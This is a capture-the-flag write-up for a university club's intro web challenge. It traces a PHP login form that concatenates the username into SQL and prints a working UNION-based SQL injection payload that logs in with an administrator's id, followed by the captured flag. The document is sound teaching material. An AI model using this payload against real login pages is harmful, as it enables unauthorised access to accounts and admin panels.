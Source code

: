 ```yaml
---
title: "I am the admin now"
description: "RISC intro2web challenge 6"
pubDate: "Aug 27 2025"
heroImage: "/hero/risc-index-2_Raaquilla.webp"
tags: ["cyber", "python", "sql", "php", "ctf", "exploit"]
---
```


###### [Canonical > RISC](https://writeups.urisc.club/web/6_i_am_the_admin_now/)

## Challenge description

/admin.php is heavily locked down, not allowing anyone to see it except for administrators! There's definitely no way to bypass this.

---

## Approach

Looking through the page's source code, we can find that there is an SQL injection vulnerability in `login.php`:

```php
$sql = "SELECT id, password, fullname FROM users WHERE username = '$username' LIMIT 1";
```

Since the username is concatenated directly into the SQL, we can add in our own SQL to be executed.

We can confirm this by entering `'--` as our username and we get a `mysqli_sql_exception`.

Since the username is near the end of the query, we can't modify any of the preceding SQL, so instead we will try to make it redundant.

Lets look at our query.

```sql
SELECT id, password, fullname FROM users WHERE username = 'index' LIMIT 1
```

> 'index' being my username

If we inject `' UNION SELECT id, password, fullname FROM users WHERE username = index` the sql becomes:

```sql
SELECT id, password, fullname FROM users WHERE username = ''
UNION
SELECT id, password, fullname FROM users WHERE username = index LIMIT 1
```

This combines the result of the first query with the result of the second query. The first query's username is blank so it will return nothing making the query now return solely what our injected half requests.

Now we need to adjust our query to get us admin access.

Looking back at the source code we find the admin page uses the id to authenticate:

```php
$stmt = $conn->prepare("SELECT is_admin, fullname, username FROM users WHERE id = ?");
```

So if we can get our user id to be one of an admin, we can get access to the page.

### The Injection

```sql
' UNION SELECT (SELECT id FROM users WHERE is_admin = 1 LIMIT 1), password, fullname FROM users WHERE username = 'index
```

If we enter the injection as our username, and enter our password, we successfully login.

Navigating to `admin.php` we find our flag waiting for us:

> Administrator Access Granted.
>
> Flag: RISC{look_at_me_i_am_the_admin_now_4f2f48aca573e2d79b4dc8f2ee047658}

Our flag is:

```
RISC{look_at_me_i_am_the_admin_now_4f2f48aca573e2d79b4dc8f2ee047658}
```
